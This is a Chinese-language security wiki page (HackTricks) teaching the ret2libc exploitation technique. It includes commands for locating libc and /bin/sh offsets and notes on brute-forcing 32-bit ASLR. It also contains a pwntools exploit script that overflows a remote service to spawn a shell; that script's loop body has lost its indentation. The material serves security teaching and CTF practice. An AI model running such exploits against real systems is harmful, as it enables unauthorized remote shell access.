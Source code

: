 # Ret2lib

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## **基本信息**

**Ret2Libc** 的本质是将易受攻击程序的执行流重定向到共享库中的一个函数（例如，**system**、**execve**、**strcpy**），而不是在栈上执行攻击者提供的 shellcode。攻击者构造一个有效载荷，修改栈上的返回地址以指向所需的库函数，同时确保根据调用约定正确设置任何必要的参数。

### **示例步骤（简化）**

* 获取要调用的函数的地址（例如 system）和要调用的命令（例如 /bin/sh）
* 生成一个 ROP 链，以将第一个参数指向命令字符串，并将执行流传递给该函数

## 查找地址

* 假设使用的 `libc` 是当前机器上的，可以使用以下命令找到它在内存中加载的位置：

{% code overflow="wrap" %}
```bash
ldd /path/to/executable | grep libc.so.6 #Address (if ASLR, then this change every time)
```
{% endcode %}

如果你想检查 ASLR 是否在改变 libc 的地址，你可以这样做：
```bash
for i in `seq 0 20`; do ldd ./<bin> | grep libc; done
```
* 知道使用的libc后，也可以通过以下方式找到`system`函数的偏移：
```bash
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
```
* 知道使用的libc后，也可以通过以下方式找到字符串`/bin/sh`函数的偏移：
```bash
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
```
### 使用 gdb-peda / GEF

知道使用的 libc 后，也可以使用 Peda 或 GEF 获取 **system** 函数、**exit** 函数和字符串 **`/bin/sh`** 的地址：
```
p system
p exit
find "/bin/sh"
```
### 使用 /proc/\<PID>/maps

如果进程在每次与其交互时都在创建**子进程**（网络服务器），请尝试**读取**该文件（可能需要以root身份运行）。

在这里你可以找到**libc在进程中加载的确切位置**以及**每个子进程将要加载的位置**。

![](<../../../../.gitbook/assets/image (95).png>)

在这种情况下，它加载在**0xb75dc000**（这将是libc的基地址）

## 未知的libc

可能你**不知道二进制文件加载的libc**（因为它可能位于你无法访问的服务器上）。在这种情况下，你可以利用漏洞**泄露一些地址并找出正在使用的libc**库：

{% content-ref url="rop-leaking-libc-address/" %}
[rop-leaking-libc-address](rop-leaking-libc-address/)
{% endcontent-ref %}

你可以在这里找到一个pwntools模板：

{% content-ref url="rop-leaking-libc-address/rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-address/rop-leaking-libc-template.md)
{% endcontent-ref %}

## 绕过32位的ASLR

这些暴力攻击**仅对32位系统有用**。

* 如果利用是本地的，你可以尝试暴力破解libc的基地址（对32位系统有用）：
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* 如果攻击远程服务器，您可以尝试**暴力破解 `libc` 函数 `usleep` 的地址**，传递参数 10（例如）。如果在某个时刻**服务器响应多了 10 秒**，您找到了这个函数的地址。

## One Gadget

{% content-ref url="../../one-gadget.md" %}
[one-gadget.md](../../one-gadget.md)
{% endcontent-ref %}

## x86 Ret2lib 代码示例

在这个示例中，ASLR 暴力破解集成在代码中，易受攻击的二进制文件位于远程服务器上：
```python
from pwn import *

c = remote('192.168.85.181',20002)
c.recvline()

for off in range(0xb7000000, 0xb8000000, 0x1000):
p = ""
p += p32(off + 0x0003cb20) #system
p += "CCCC" #GARBAGE, could be address of exit()
p += p32(off + 0x001388da) #/bin/sh
payload = 'A'*0x20010 + p
c.send(payload)
c.interactive()
```
## x64 Ret2lib 代码示例

查看示例来自：

{% content-ref url="../rop-return-oriented-programing.md" %}
[rop-return-oriented-programing.md](../rop-return-oriented-programing.md)
{% endcontent-ref %}

## Ret-into-printf (或 puts)

这允许通过调用 `printf`/`puts` 并将一些特定数据作为参数来**泄露进程中的信息**。

## Ret2printf

这基本上意味着滥用**Ret2lib 将其转变为 `printf` 格式字符串漏洞**，通过使用 `ret2lib` 调用 printf 以利用它（听起来没用但可能）：

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

## 其他示例和参考

* [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)
* Ret2lib，给定 libc 中一个函数的地址泄露，使用一个 gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csawquals17\_svc/index.html)
* 64 位，启用 ASLR 但没有 PIE，第一步是填充溢出直到 canary 的字节 0x00，然后调用 puts 并泄露它。使用 canary 创建一个 ROP gadget 来调用 puts 以泄露 GOT 中 puts 的地址，然后调用 `system('/bin/sh')` 的 ROP gadget
* [https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/fb19\_overfloat/index.html)
* 64 位，启用 ASLR，没有 canary，主函数中的堆栈溢出来自子函数。ROP gadget 调用 puts 以泄露 GOT 中 puts 的地址，然后调用一个 gadget。
* [https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/hs19\_storytime/index.html)
* 64 位，没有 pie，没有 canary，没有 relro，nx。使用 write 函数泄露 write (libc) 的地址并调用一个 gadget。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
